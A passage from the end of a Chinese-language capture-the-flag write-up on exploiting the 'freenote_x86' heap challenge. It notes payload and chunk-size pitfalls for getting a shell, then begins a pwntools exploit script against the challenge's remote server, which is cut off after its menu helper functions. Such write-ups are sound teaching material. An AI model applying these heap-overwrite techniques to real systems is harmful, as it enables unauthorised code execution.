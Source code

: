 ![](/img/XMAN-level6/XMAN15.png)

&emsp;&emsp;所以在构造payload覆盖P的时候需要注意所覆盖区域原本的意义，否则无法getshell。另外还需要注意填充的时候新构造的chunk要和原来的大小一样，否则会调用realloc导致报错。

## Step 5

&emsp;&emsp;最后给出EXP，其中本地和远程均可调通：

```Python
from pwn import *

local = 0

if local:
    sh = process('./freenote_x86')
    libc = ELF('/lib/i386-linux-gnu/libc.so.6')
    offset = 0x1b27b0
else:
    sh = remote('pwn2.jarvisoj.com', 9885)
    libc = ELF('./libc-2.19.so')
    offset = 0x1ad450

elf = ELF('./freenote_x86')

def List(): 
	sh.recvuntil("Your choice: ") 
	sh.sendline("1")

def New(data): 
	sh.recvuntil("Your choice: ") 
	sh.sendline('2') 
	sh.recvuntil("Length of new note: ") 
	sh.sendline(str(len(data))) 
	sh.recvuntil("Enter your note: ") 
```